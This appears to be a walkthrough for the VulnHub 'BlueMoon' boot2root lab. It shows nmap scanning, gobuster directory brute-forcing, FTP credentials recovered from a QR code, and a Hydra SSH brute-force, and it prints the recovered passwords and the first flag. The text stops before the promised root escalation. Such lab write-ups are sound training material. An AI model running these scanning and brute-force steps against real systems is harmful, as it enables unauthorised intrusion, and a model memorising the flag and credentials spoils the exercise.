








# BlueMoon-WalkThrough
BlueMoon: 2021 - A boot2root CTF challenge from VulnHub (Easy difficulty). Goal: Get root access and capture all flags.

## Machine Details:

Release date: April 7, 2021 

Author: Kirthik 

Difficulty: Easy 

Goal: Get root! 

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP) 

Key techniques: Directory brute-forcing, QR code decoding, Hydra password cracking, sudo misconfiguration, Docker group privilege escalation 

## Phase 1: Reconnaissance

1. Network Discovery
   
```bash
nmap -sn 192.168.100.0/24
```
So we get several IP Address but the one we need is the MAC Address that set in our VM.
which we get this:



 2. Port Scanning
Scan for open ports and services:

```bash
nmap -sV -sC -Pn -vv 192.168.100.117
```

Results :

Port	Service	Version

21/tcp	FTP	vsftpd 3.0.3

22/tcp	SSH	OpenSSH 7.9p1

80/tcp	HTTP	Apache httpd 2.4.38

## Phase 2: Enumeration 
Visit the web server on port 80. Nothing useful on the main page or source code.

1. Directory Brute-forcing :

```bash
gobuster dir -u http://192.168.100.117 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x ,php,.html,.bak
```
Discovered directory: /hidden_text



2. Navigate to http://<target-ip>/hidden_text and click the "Thank You…" link to find a QR code image.



## Phase 3: Gaining Access
1. QR Code Decoding
   
Download the QR code image and decode it using an online tool.

Decoded result :


Credentials found:

Username: userftp

Password: ftpp@ssword

List and download files :

```bash
ls
get information.txt
get p_lists.txt
```
information.txt :


p_lists.txt: Contains a list of potential passwords (leetspeak variations)


## Phase 4: Exploitation

1. SSH Brute-force
Use Hydra to brute-force SSH access for user "robin" :

```bash
hydra -l robin -P p_lists.txt ssh://192.168.100.117
```
Credentials found :

Username: robin

Password: k4rv3ndh4nh4ck3r



2.  SSH Access & First Flag
   
Login via SSH:

```bash
ssh robin@192.168.100.117
```


3. First Flag (user1.txt) :
   
```bash
cat user1.txt
==> Fl4g{u5er1r34ch3d5ucc355fully}
```


